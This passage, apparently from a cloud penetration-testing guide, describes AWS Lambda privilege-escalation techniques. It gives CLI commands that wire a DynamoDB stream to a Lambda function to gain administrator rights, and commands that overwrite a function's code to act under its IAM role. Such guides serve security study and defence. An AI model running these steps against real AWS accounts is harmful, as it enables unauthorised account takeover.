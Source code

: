 After this, the next step depends on **whether DynamoDB is being used** in the current AWS environment. **If** it is being **used**, all that needs to be done is **creating the event source mapping** for the Lambda function, but if not, then the attacker will need to **create a table with streaming enabled** with the following command:

```bash
aws dynamodb create-table --table-name my_table \
    --attribute-definitions AttributeName=Test,AttributeType=S \
    --key-schema AttributeName=Test,KeyType=HASH \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```

After this command, the attacker would **connect the Lambda function and the DynamoDB table** by **creating an event source mapping** with the following command:

```bash
aws lambda create-event-source-mapping --function-name my_function \
    --event-source-arn <arn_of_dynamodb_table_stream> \
    --enabled --starting-position LATEST
```

Now that the Lambda function and the stream are connected, the attacker can i**nvoke the Lambda function by triggering the DynamoDB stream**. This can be done by putting an item into the DynamoDB table, which will trigger the stream, using the following command:

```bash
aws dynamodb put-item --table-name my_table \
    --item Test={S="Random string"}
```

At this point, the Lambda function will be invoked, and the attacker will be made an administrator of the AWS account.

**Potential Impact:** Direct privesc to the lambda service role specified.

### `lambda:UpdateFunctionCode`

An attacker with the **`lambda:UpdateFunctionCode`** permission could **update the code in an existing Lambda function with an IAM role attached** so that it would import the relevant AWS library in that programming language and use it to perform actions on behalf of that role. They would then need to **wait for it to be invoked if they were not able to do so directly**, but if it already exists, there is likely some way that it will be invoked.

```bash
aws lambda update-function-code --function-name target_function \
    --zip-file fileb:///my/lambda/code/zipped.zip

aws lambda invoke --function-name my_function output.txt
```

Where the associated **.zip file contains code that utilizes the Lambda’s role**. An example could include the code snippet from previous methods.

**Potential Impact:** Direct privesc to the lambda service role used.

### `lambda:UpdateFunctionConfiguration`
